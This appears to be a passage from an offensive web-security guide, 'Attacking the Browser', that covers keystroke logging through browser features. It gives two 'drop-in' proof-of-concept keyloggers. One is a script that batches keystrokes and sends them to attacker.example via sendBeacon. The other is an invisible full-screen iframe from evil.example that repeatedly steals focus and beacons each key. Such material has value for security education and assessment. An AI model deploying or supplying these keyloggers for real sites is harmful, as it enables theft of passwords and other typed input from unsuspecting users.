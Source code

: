 # Attacking the Browser

Not all user attacks require bugs in a target web app. Some ride on **browser behavior and core web platform features**. Any malicious site (or a benign site that got popped) can launch these. Understanding them helps you judge how dangerous an app’s *perfectly normal* behavior can be when combined with the browser’s quirks.

Below you’ll find **what works in 2025**, where old tricks were nerfed, and **drop-in PoCs**.

---

## 1) Keystroke Logging (incl. “Reverse Strokejacking”)

**Idea:** Run JS that captures keyboard events while your frame has focus. If a victim app embeds third-party content (ads/widgets) without sandboxing, that third-party can steal focus and log keys.

### PoC: Plain keylogger (same-origin or unsandboxed 3rd-party frame)

```html
<script>
  // Minimal keylogger (works while the doc/iframe has focus)
  window.addEventListener('keydown', e => {
    // exfil in batches to cut noise
    buffer.push(e.key);
    if (buffer.length >= 20 || e.key === 'Enter') {
      navigator.sendBeacon('https://attacker.example/log', buffer.join(''));
      buffer.length = 0;
    }
  }, true);
  const buffer = [];
</script>
```

### PoC: “Reverse strokejacking” (child frame steals focus)

Works when the child frame is **not sandboxed** (no `sandbox` attr; or `allow-scripts allow-same-origin` granted) and can call `focus()` often enough to keep capturing.

```html
<!-- Attacker-controlled iframe injected by ads/widget -->
<iframe id="ad" src="https://evil.example/focus.html" style="position:fixed; inset:0; opacity:0; pointer-events:none"></iframe>
```

```html
<!-- https://evil.example/focus.html -->
<!doctype html><script>
  // Keep stealing focus while user types; log keys
  let lastKey = Date.now();
  window.addEventListener('keydown', e => {
    lastKey = Date.now();
    navigator.sendBeacon('https://evil.example/keys', e.key);
  }, true);

  // “Blinking caret illusion”: quickly relinquish focus when idle
  setInterval(() => {
    if (Date.now() - lastKey < 250) self.focus();
  }, 75);
</script>
```
